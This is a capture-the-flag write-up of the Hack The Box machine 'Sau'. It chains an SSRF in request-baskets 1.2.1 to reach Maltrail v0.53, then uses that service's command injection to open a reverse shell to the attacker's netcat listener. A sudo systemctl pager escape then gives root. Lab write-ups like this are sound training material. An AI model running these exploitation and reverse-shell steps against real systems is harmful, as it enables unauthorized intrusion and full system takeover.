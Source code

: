 ```yaml
---
title: Sau
categories: HTB
tags: complete retired easy linux
img_path: /assets/img/HTB/Sau/
---
```


![Sau HTB machine card](Sau.png)

> Sau is an easy Linux machine from Hack the Box. Here is the tldr;
>
> * nmap shows ports 22 and 55555 are open and port 80 is filtered.
> * Port 55555 is running a version of `request-baskets` that is vulnerable to SSRF, allowing us to set up a proxy to access port 80.
> * Port 80 is running a service called `Maltrail` which is vulnerable to unauthenticated remote OS comand injection, allowing us to get a reverse shell.
> * Our user is able to run systemctl as sudo. This version uses the pager `less`, which retains the sudo priviledges allowing us to spawn a shell as root.
{: .prompt-tip }

## Video Walkthrough

{% include youtube.html id='cHuljUzBv3Y?si=vCjDGM5yApRHArhN' %}

## Enumeration

Let's start off with a basic nmap scan.

```bash
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB/sau]
└─$ nmap 10.10.11.224                             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-14 15:07 MST
Nmap scan report for 10.10.11.224
Host is up (0.061s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 11.14 seconds
```

SSH is probably not our ticket and port 80 is filtered, so 55555 is looking really interesting. Let's take a closer look and see what we have.

### Request Baskets

![Create a new basket](new_basket.png)
Visiting our ip address at port 55555 in a browser shows us a page called Request Baskets, which says it can collect and inspect HTTP requests.

Further investigation shows us that it is powered by request-baskets version 1.2.1. This should be helpful!

![Request Basket version 1.2.1](request_baskets_version.png)

Searching Google for request baskets version 1.2.1 reveals that it is vulnerable to server side request forgery (SSRF), CVE-2023-27163. Maybe we can use this to see what is on port 80?

Let's test it out by starting a netcat listener on our machine and see if we can reach it by creating a new basket.

```bash
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB/sau]
└─$ nc -lvnp 80
```

In the basket settings, let's configure it to forward the request to our Kali machine's IP address.

![Forwarding settings for basket](forward_settings1.png)

Next, let's curl the basket using the URL provided

![The url for our basket](basket_url.png)

Success! We are able to receive the request we sent on our netcat listener.

![curl the basket with nc listener open](nc_request.png)

### SSRF

Now that we see how things work and know that it is vulnerable, let's see if we can use it to connect to the mysterious port 80. To do this, let's edit the settings for our basket again and set it to forward port 80 from `http://127.0.0.1` with Proxy Response and Expand Forward Path checked.

![Adjusting the settings for our basket](forward_settings2.png)

### Maltrail v 0.53

Now when we go to the URL for the basket, it gives us a broken looking site. At the bottom, we notice it is running something called Maltrail v 0.53. 

![Broken looking homepage for maltrail on port 80](maltrail.png)

Google shows us that this version is vulnerable to unauthenticated OS command injection (RCE). I found this Python exploit that should give us a reverse shell. [Spookier Maltrail v 0.53 Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit)

### We have a shell!

To run the exploit, we just need to start a netcat listener (I chose port 9001), then run the exploit passing it our listening IP address and port, along with the url for our basket.

```bash
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB]
└─$ python3 maltrail.poc.py 10.10.14.6 9001 http://10.10.11.224:55555/ionzxhf
```

![Terminal showing reverse shell](rev_shell.png)
Hooray! We now have a reverse shell, it looks like we're currently running as the user "puma".

## Foothold & User

Let's upgrade our shell a little and take a look around.

```bash
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.224] 51276
$ python3 -c 'import pty;pty.spawn("/bin/bash")';
python3 -c 'import pty;pty.spawn("/bin/bash")';
puma@sau:/opt/maltrail$ 
```

### User Flag

If we navigate to `/home/puma` we are able to get the `user.txt` flag, no privesc needed at this point.

### Privesc

One of the first things I like to run is `sudo -l` to see if our user can run anything as root.

```bash
puma@sau:/opt/maltrail$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Bingo! Looks like we're able to run `sudo systemctl status trail.service` with no password. If we run `systemctl --version`, we see that we're running `systemd 245 (245.4-4ubuntu3.22)`.

## Root!

It appears that if we run the command as sudo, it will use the pager `less` to show the results. Within `less`, we are able to run commands and it maintains the sudo priviledges allowing us to launch `/bin/bash` as root. To run a command in less you just type `!` followed by your command.

```bash
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/bash
!//bbiinn//bbaasshh!/bin/bash
root@sau:/opt/maltrail# id
id
uid=0(root) gid=0(root) groups=0(root)
root@sau:/opt/maltrail# 
```

And we have root!



